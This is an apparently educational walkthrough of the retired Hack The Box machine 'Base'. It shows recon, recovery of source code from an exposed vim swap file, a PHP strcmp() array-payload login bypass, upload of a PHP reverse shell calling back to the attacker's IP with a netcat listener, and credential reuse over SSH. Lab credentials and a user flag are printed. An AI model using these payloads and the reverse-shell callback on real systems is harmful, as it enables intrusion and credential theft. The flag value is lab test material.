# HTB — Base | Full Walkthrough

> [!TIP]
> **Scope note:** The target IP changes every time the machine spawns. Every command below uses `$IP`, set once at the start of the engagement. All outputs shown were captured against `10.129.50.24`.

---

## 1. Machine Overview & Metadata

| Field | Value |
|---|---|
| **Machine** | Base |
| **Platform** | Hack The Box (retired) |
| **OS** | Linux (Ubuntu 18.04.6 LTS, kernel 4.15.0-151-generic) |
| **Difficulty** | Easy |
| **Attack Vector** | Web |
| **Key Vulnerabilities** | Sensitive file exposure (`login.php.swp` left in webroot) • PHP `strcmp()` type juggling → authentication bypass • Unrestricted file upload → Remote Code Execution • Plaintext credential disclosure + password reuse • Unsafe `sudo` rule on `/usr/bin/find` → root |
| **Author of notes** | CPTS Field Manual |

### Attack Chain at a Glance

```
Nmap (22/ssh, 80/http)
   └─> Directory fuzzing → /login/ has directory listing enabled
         └─> login.php.swp exposed → recover login.php source
               └─> strcmp($input, $secret) == 0 with LOOSE comparison
                     └─> POST arrays (username[]=x&password[]=x) → NULL == 0 → auth bypass
                           └─> /upload.php admin panel → upload PHP reverse shell
                                 └─> ffuf finds /_uploaded/ → trigger shell → www-data
                                       └─> /var/www/html/login/config.php leaks creds
                                             └─> password reuse → SSH as john → user.txt
                                                   └─> sudo -l: (root) /usr/bin/find → GTFOBins → root.txt
```

---

## 2. Reconnaissance & Enumeration

### 2.1 Connectivity Check & Variable Setup

```bash
export IP="10.129.50.24"
ping -c 1 $IP
```

```
64 bytes from 10.129.50.24: icmp_seq=1 ttl=63 time=161 ms
```

A `ttl` of 63 (64 − 1 hop) hints at a Linux host one router away — consistent with an HTB Linux box.

### 2.2 Full Nmap Scan

```bash
sudo nmap -sVC -A -Pn -T3 $IP
```

**Why each switch:**

| Switch | Purpose |
|---|---|
| `-sV` | Probe open ports to fingerprint service *versions* (e.g., exact OpenSSH/Apache builds → tells us which exploit DBs to check). |
| `-sC` | Run the default NSE script set against discovered services (banner grabs, `http-title`, `ssh-hostkey`, etc.). |
| `-A` | Aggressive bundle: OS detection (`-O`), version detection (`-sV`), script scanning (`-sC`), and traceroute. |
| `-Pn` | Skip host discovery — assume the host is up (HTB boxes often drop ICMP/ARP probes from the NAT network; without this, Nmap may report "host down"). |
| `-T3` | Default timing template. `-T4`/`-T5` are faster but noisier and can drop results on unstable links; `-T3` is reliable for a single-target lab. |
| `sudo` | Required for accurate OS detection and for `-sS`-style SYN behavior on raw sockets. |


*Full nmap scan of Base showing SSH on 22 and Apache on 80, with http-title "Welcome to Base"*

**Results:**

| Port | State | Service | Version |
|---|---|---|---|
| 22/tcp | open | ssh | OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (protocol 2.0) |
| 80/tcp | open | http | Apache httpd 2.4.29 ((Ubuntu)) — http-title: *Welcome to Base* |

Only two TCP ports. No SSH brute-force surface yet (no credentials), so the web server on port 80 is the obvious entry point.

> [!NOTE]
> `ssh-hostkey` output gives us the server's key fingerprints. Not directly useful now, but worth recording — it lets us detect MITM and confirm we always hit the same box.

### 2.3 Web Enumeration — First Look

Browsing to `http://$IP` shows a marketing site for a **file hosting service**:


*Base landing page — "The World's Number One File Hosting Service" with a Login button*

The navbar offers a **Login** link. Before touching it, enumerate the web root for anything the homepage doesn't advertise.

### 2.4 Directory & File Fuzzing

Using `ffuf` with a small, fast wordlist to map the application first:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ \
     -u http://$IP/FUZZ \
     -t 100 \
     -mc all -fc 404
```

| Flag | Why |
|---|---|
| `-w ...:FUZZ` | Wordlist aliased to the `FUZZ` keyword. *DirBuster 2.3-small (~87k entries)* is a good first pass — bigger lists (`raft-medium-directories`, `big.txt`) are the follow-up for deeper paths. |
| `-t 100` | 100 concurrent threads — aggressive but acceptable against a single lab target. |
| `-mc all -fc 404` | Match every status code except 404, so redirects (302) and forbidden (403) paths surface too. |

**Found:** `/login`, `/assets`, `/forms`.

Visiting `/login/` is immediately interesting — **Apache directory listing is enabled**, so the index page dumps the folder contents:


*Index of /login — directory listing exposing config.php, login.php and login.php.swp*

Three files:

| File | Size | Significance |
|---|---|---|
| `config.php` | 61 B | Almost certainly holds the credentials the login logic compares against. PHP is executed server-side, so requesting it directly returns nothing. |
| `login.php` | 7.4K | The login handler. Also executes server-side. |
| `login.php.swp` | 16K | ⚠️ **A vim swap file — editor backup garbage left in the webroot.** Apache does *not* know how to execute `.swp`, so it serves the **raw bytes**, which contain the full source of `login.php`. |

> [!WARNING]
> This is the actual first vulnerability of the box: **sensitive file exposure via editor artifacts + directory listing**. `.swp`, `.bak`, `.old`, `~` and `.save` files should always be part of your fuzzing wordlists (`DirBuster-2007_directory-list-2.3-small.txt` already includes common ones — and manual checks like `index.php.swp` are cheap).

---

## 3. Source Code Review & Vulnerability Discovery

### 3.1 Recovering the Source from the Swap File

Download the swap file and recover the buffer. Two options:

```bash
# Option A: quick strings dump
curl -s http://$IP/login/login.php.swp -o login.php.swp
strings login.php.swp | less

# Option B: proper vim recovery (preserves structure)
vim -r login.php.swp
```

Either way, the authentication logic of `login.php` comes back:


*Recovered login.php source — the strcmp() comparison logic visible in the swap file dump*


*Second half of the recovered login.php source showing header redirect and session assignment*

Reconstructed (line order partially reassembled from the swap buffer — the *logic* is exact):

```php
<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {  // both fields required
    require('config.php');                                       // pulls in $username / $password
    if (strcmp($_POST['username'], $username) == 0) {            // (1) LOOSE comparison of strcmp() result
        if (strcmp($_POST['password'], $password) == 0) {        // (2) same flaw on the password
            header("Location: /upload.php");                     // success → redirect to upload panel
            $_SESSION['user_id'] = 1;                            // marks the session as authenticated
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
?>
```

### 3.2 Root Cause: `strcmp()` + Loose Comparison (Type Juggling)

Two design mistakes compound here:

1. **`strcmp()` is being used for authentication at all.** `strcmp()` compares *strings* byte-by-byte. Its return contract is: `< 0` if str1 sorts before str2, `> 0` if after, and `0` if they are **equal**.

2. **The return value is checked with `==` (loose) instead of `===` (strict/identical).** Loose comparison applies PHP's type juggling table. Critically:

   | Expression | Loose `==` result | Strict `===` result |
   |---|---|---|
   | `0 == "admin"` | `true` (PHP < 8) | `false` |
   | `NULL == 0` | `true` | `false` |

Now the attack: `$_POST['username']` and `$_POST['password']` are **attacker-controlled**. HTTP has no types — if a client submits a field **twice with square-bracket syntax** (`username[]=x`), PHP dutifully converts it into an **array**:

```php
$_POST['username'] = ['x'];   // an array, NOT a string
```

Feed that array into `strcmp()`:

```php
strcmp(['x'], 'admin')
```

`strcmp()` expects two strings. On PHP 7 (Base runs PHP 7.2 on Ubuntu 18.04) it emits a `strcmp() expects parameter 1 to be string, array given` **warning** and returns **`NULL`**. On PHP 8+ this same trick throws a fatal `TypeError` — one reason this bug class mostly died with PHP 8 (still worth understanding: tons of PHP 5/7 code is in production).

Then the loose comparison evaluates:

```php
if (NULL == 0)   // strcmp returned NULL; we compared with == 
// NULL == 0 → true  →  authentication PASSES
```

> [!IMPORTANT]
> The bug is **not** in `strcmp()` — it's the combination of (a) trusting user input to always be a string, and (b) checking the sentinel return value with `==` instead of `===`. `strcmp(...) === 0` would be safe here, because `NULL === 0` is `false`.

> [!NOTE]
> We never need to know the real credentials to bypass the login. The credentials in `config.php` become valuable *later*, for a different reason (password reuse).

---

## 4. Initial Foothold (User Access)

### 4.1 Crafting the Authentication Bypass Request

Browse to `http://$IP/login/login.php`, submit **any** dummy values (e.g., `vcxvc` / `xxx`) with the intercept **on** in Burp, so the POST is caught before it leaves the browser. Then rewrite the body to submit both fields as arrays:


*Burp Proxy Intercept holding the POST to /login/login.php with the array payload in the body*

The full request:

```http
POST /login/login.php HTTP/1.1
Host: 10.129.50.24
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fjc361aqmmborctns81ts5eaom
...

username[]=bvc&password[]=cvb
```

**Parameter-by-parameter:**

| Field | Value | Effect server-side |
|---|---|---|
| `username[]` | `bvc` | PHP parses this as `$_POST['username'] = ['bvc']`. Passes `!empty()` (non-empty arrays are truthy-ish for `empty()`). `strcmp()` then chokes → returns `NULL`. |
| `password[]` | `cvb` | Same trick. Second `strcmp()` also returns `NULL`. |
| (values) | arbitrary | The content is irrelevant — only the **type** matters. `bvc`/`cvb` were just keyboard mash. |

Both guards collapse: `NULL == 0` → `true`, `NULL == 0` → `true`. The server responds **`302 Found`** with `Location: /upload.php` and sets the session as authenticated. Forward the request (or just browse — the session cookie now carries `user_id = 1`).


*Admin File Uploads panel — authenticated area reached via the bypass*

> [!TIP]
> The same bypass works without a browser:
> ```bash
> curl -i -s -c cookies.txt -X POST http://$IP/login/login.php \
>      -d 'username[]=bvc&password[]=cvb'
> ```
> Expect `HTTP/1.1 302 Found` and `Location: /upload.php`. Reuse `cookies.txt` with `-b cookies.txt` on `/upload.php`.

### 4.2 From Admin Panel to RCE — Unrestricted File Upload

The panel is a plain file uploader ("Upload Your Files To Base Server"). Reviewing the site source and the upload form reveals **no client-side extension filter**, and testing shows the server performs **no validation whatsoever** — `.php` files are accepted. An uploader that stores attacker-controlled PHP inside the web root and lets Apache execute it is a direct remote code execution primitive.

**Plan:** upload a PHP reverse shell, find where it lands, trigger it, catch it.

Prepare a standard pentestmonkey reverse shell (`/usr/share/webshells/php/php-reverse-shell.php` on Kali) with the attack-box tunnel IP and a port:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php shell.php
# edit $ip / $port inside the file:
#   $ip = '10.10.16.201';   // your VPN/tun0 IP
#   $port = 8000;
```

Upload it:


*Green toast confirming "Your file has been uploaded successfully!"*


### 4.3 Locating the Upload Directory

The uploader does **not** tell us where files are stored. Since uploads almost always land in a subdirectory of the web root, fuzz for it — this time with a bigger wordlist (`dirb/big.txt`, ~20k entries):

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt:FUZZ \
     -u http://$IP/FUZZ \
     -t 100 \
     -mc all -fc 404
```

A few wordlists in, `big.txt` hits paydirt:

```
_uploaded               [Status: 200, Size: 509, Words: 25, Lines: 12]
```

Browsing to `http://$IP/_uploaded/` (directory listing enabled again) confirms `shell.php` is sitting there:


*Index of /_uploaded showing our uploaded shell.php*

### 4.4 Catching the Shell

Start the listener, then trigger the payload by requesting the file (a click in the browser works too):

```bash
nc -lvnp 8000
```

| Flag | Meaning |
|---|---|
| `-l` | Listen mode (server, not client). |
| `-v` | Verbose — report connections. |
| `-n` | Numeric-only output — skip DNS resolution (faster, cleaner logs). |
| `-p 8000` | Port to bind (must match `$port` in the shell). |

```bash
curl http://$IP/_uploaded/shell.php
```


*Netcat listener catching the reverse shell as www-data on the base host*

```
connect to [10.10.16.201] from (UNKNOWN) [10.129.50.24] 41354
Linux base 4.15.0-151-generic #157-Ubuntu SMP ... x86_64 GNU/Linux
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

**Foothold confirmed:** code execution as `www-data` (the Apache service account — least privilege, as expected for a PHP RCE).

> [!WARNING]
> `sh: 0: can't access tty; job control turned off` means this is a dumb, non-interactive shell: no tab completion, no `Ctrl+C` safety (it kills the shell), broken editors. Stabilize before doing real work.

### 4.5 Shell Upgrade — Full TTY

**Step 1 — spawn a bash via Python pty:**

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

**Step 2 — background the shell** with `Ctrl+Z`, then on the **attacker** box put your own terminal into raw mode and foreground the shell again:

```bash
# press Ctrl+Z first, then:
stty raw -echo; fg
```

| Piece | Why |
|---|---|
| `stty raw` | Disables line-buffering/interpretation of special chars in *your* terminal so keystrokes pass through verbatim to the remote shell (enables `Ctrl+C`, arrows, autocomplete). |
| `-echo` | Stops your terminal from double-printing every character. |
| `fg` | Brings `nc` back to the foreground — the shell resumes mid-session. |

**Step 3 — environment fixes inside the shell:**

```bash
export TERM=xterm        # makes clear, vim, top render correctly
stty rows 40 cols 140    # match your local terminal size (check with `stty size` before Ctrl+Z)
```

> [!TIP]
> Alternative one-liner if Python is present: `script /dev/null -c bash` — then apply the same `stty raw -echo; fg` dance on the attacker side.

### 4.6 Enumeration as www-data & Credential Discovery

Standard low-privilege enumeration on the web root pays off:

```bash
www-data@base:/var/www/html$ ls -al
total 72
drwxr-xr-x 6 root root      4096 Jun  9  2022 .
drwxr-xr-x 3 root root      4096 Jun  4  2022 ..
drwxrwxr-x 2 root www-data  4096 Aug 27 15:39 _uploaded
drwxr-xr-x 7 root root      4096 Jun  4  2022 assets
drwxr-xr-x 2 root root      4096 Jun  4  2022 forms
-rwxr-xr-x 1 root root     39344 Jun  4  2022 index.html
drwxr-xr-x 2 root root      4096 Jun 15  2022 login
-rwxr-xr-x 1 root root       128 Jun  4  2022 logout.php
-rwxr-xr-x 1 root root      2952 Jun  9  2022 upload.php
```

The `login/` directory is readable by `www-data` (it has to be — Apache serves it). Inside is the `config.php` we spotted during recon:

```bash
www-data@base:/var/www/html$ cd login
www-data@base:/var/www/html/login$ ls
config.php  login.php  login.php.swp
www-data@base:/var/www/html/login$ cat config.php
```


*cat config.php revealing plaintext credentials admin / thisisagoodpassword*

```php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

Now we have **plaintext credentials**. SSH (port 22 from recon) gives a far more stable session than the webshell — and credential **reuse** across services is rampant. Try the password against local users. The box has a user `john` (visible in `/home/`):

```bash
ssh john@$IP
# password: thisisagoodpassword
```


*SSH login as john succeeded — Ubuntu 18.04.6 MOTD and user.txt contents*

```text
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-151-generic x86_64)
john@base:~$ ls
user.txt
john@base:~$ cat user.txt
54846c258f3b4612f78a819573d158e
```

> **Flag captured — `user.txt`:** `54846c258f3b4612f78a819573d158e` *(leading character is cropped in the screenshot; hashes are per-machine and for progress verification only — never submit one you didn't read yourself).*

